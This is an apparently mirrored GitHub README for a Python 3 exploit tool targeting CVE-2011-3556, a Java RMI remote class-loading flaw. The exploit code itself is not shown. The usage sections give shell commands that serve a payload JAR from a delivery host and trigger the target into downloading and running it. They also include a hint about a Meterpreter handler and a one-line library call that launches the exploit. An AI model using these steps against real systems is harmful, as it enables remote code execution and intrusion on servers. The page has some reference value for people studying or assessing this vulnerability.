 # cve_2011_3556

Python 3 implementation of an existing CVE-2011-3556 proof of concept (PoC).

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/sk4la](https://github.com/sk4la) |
| Url      | [https://github.com/sk4la/cve_2011_3556](https://github.com/sk4la/cve_2011_3556)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2011-3556* exploit* java* python* python3* vulnerability-assessment

</details>

## Readme

# CVE-2011-3556 — Proof of Concept (PoC)

## Disclaimer

This tool is a Python 3 implementation of an existing [proof of concept (PoC)](https://www.exploit-db.com/raw/17535) made by mihi for the [Metasploit Framework](https://www.metasploit.com/).

## Prerequisites

To use the module, simply follow the instructions below:

```sh
# Clone this repository locally.
$ git clone https://github.com/sk4la/cve_2011_3556.git && cd cve_2011_3556/

# Optionally set the `x` bit to be able to execute the script directly.
$ chmod u+x exploit.py

$ ./exploit.py --help && echo "It works!"
```

## Usage

### Command-line

To be remotely loaded by the vulnerable Java RMI server, the payload (a JAR binary) must be served as an HTTP resource. One could quickly serve it using the famous `python3 -m http.server`.

Once the payload is made available for download, simply execute the `exploit.py` script to trigger the vulnerability.

```sh
$ python3 -m http.server --bind DELIVERY_HOST DELIVERY_PORT &
$ ./exploit.py -h VULNERABLE_HOST -u http://DELIVERY_HOST:DELIVERY_PORT/PAYLOAD.jar`
```

> In case the payload is a Meterpreter (Metasploit Framework), do not forget to `use exploit/multi/handler`.

### Library

This module can also be used as a library by importing the `cve_2011_3556` module to your current namespace:

```python
from cve_2011_3556 import JavaRMIExploit

JavaRMIExploit("127.0.0.1", "http://127.0.0.1/payload.jar").exploit()
```

It's as simple as that!

## Credits

Special thanks to mihi for the initial implementation of the Metasploit Framework [module](https://www.exploit-db.com/raw/17535).



## Get the content

```
git clone https://github.com/sk4la/cve_2011_3556
cd cve_2011_3556
```

{% embed url="https://github.com/sk4la/cve_2011_3556" %}

<figure><img src="https://avatars.githubusercontent.com/u/38187780?v=4" alt=""><figcaption><p>sk4la</p></figcaption></figure>

